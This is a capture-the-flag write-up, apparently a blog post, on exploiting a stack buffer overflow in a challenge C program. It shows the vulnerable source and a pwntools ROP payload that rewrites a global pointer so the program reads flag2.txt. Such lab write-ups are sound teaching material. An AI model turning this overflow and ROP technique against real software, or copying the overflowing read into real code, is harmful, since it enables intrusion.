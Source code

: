 ```yaml
---
layout: post
title: " Buffer Overflow with Global Variable Control"
date: 2025-04-23
categories:
---
```

# Exploit Write-up: Buffer Overflow with Global Variable Control

[Challenge](https://ctf.hackucf.org/challenges#stack0%20pt2)

### Overview

In this challenge, we are given a C program that contains a **buffer overflow vulnerability** in the `func()` function. The goal is to exploit this vulnerability to print the contents of the correct flag file, `flag2.txt`, even though the binary is hardcoded to open `flag1.txt`.

---

### Source Code Summary

```c
static const char* flagfile = "flag1.txt";

static void giveFlag(void) {
    char flag[64];
    FILE* fp = fopen(flagfile, "r");
    if (!fp) {
        perror(flagfile);
        return;
    }
    fgets(flag, sizeof(flag), fp);
    fclose(fp);
    printf("Here is your first flag: %s\n", flag);
}
```

In `giveFlag()`, the program uses a **global variable `flagfile`** to open the flag file. Our goal is to make it open `flag2.txt` instead.

---

### Vulnerability

In `func()`:

```c
void func(void) {
    bool didPurchase = false;
    char input[50];

    printf("Debug info: Address of input buffer = %p\n", input);
    read(STDIN_FILENO, input, 1024);

    if (didPurchase) {
        printf("Thank you for purchasing Hackersoft Powersploit!\n");
        giveFlag();
    } else {
        printf("This program has not been purchased.\n");
    }
}
```

- `input` is a 50-byte buffer.
- The program reads **1024 bytes** into it using `read()`, which causes a **stack-based buffer overflow**.
- `didPurchase` is right before `input` on the stack, so it can be overwritten.
- After that, the **return address can also be overwritten**.

---

### Exploitation Plan
1. **Overwrite `didPurchase`** to `true` so that `giveFlag()` is called.
2. **Overwrite the global variable `flagfile`** to point to `"flag2.txt"` instead of `"flag1.txt"`.
---
### Step-by-Step Exploitation
#### Step 1: Overwrite `didPurchase`
- Since `didPurchase` is right above `input`, the first byte of overflow can flip it to non-zero (`true`).
#### Step 2: Overwrite `flagfile`
- `flagfile` is a global pointer. So we can overwrite it with a pointer to `"flag2.txt"` stored in our buffer.
#### Step 3: Use ROP to overwrite `flagfile`

- Since we control the return address, we can craft a **ROP chain** to write the address of `"flag2.txt"` into the `flagfile` global variable.
- 
ROP gadget Used:

```
0x08049400 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```

Payload:
```python
payload = flat(
	cyclic(63), # bytes to fill buffer up to EIP
	# write flag2.txt to writable memory
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	bss, # buf address where is will be store (writeable memory)
	11, # len
	0x0, # junk
	#overwrite the flagfile variable pointer
	read_, # read function address from giveflag function
	gadget, #  pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0, # stdin
	flagfile_addr_ptr, # hardcoded flagfile addr
	0x0,
	giveFlag, # giveflag function ptr
)
```

[Full Exploit Script](#)

---

### Lessons Learned

- Global variables can be overwritten indirectly through buffer overflows.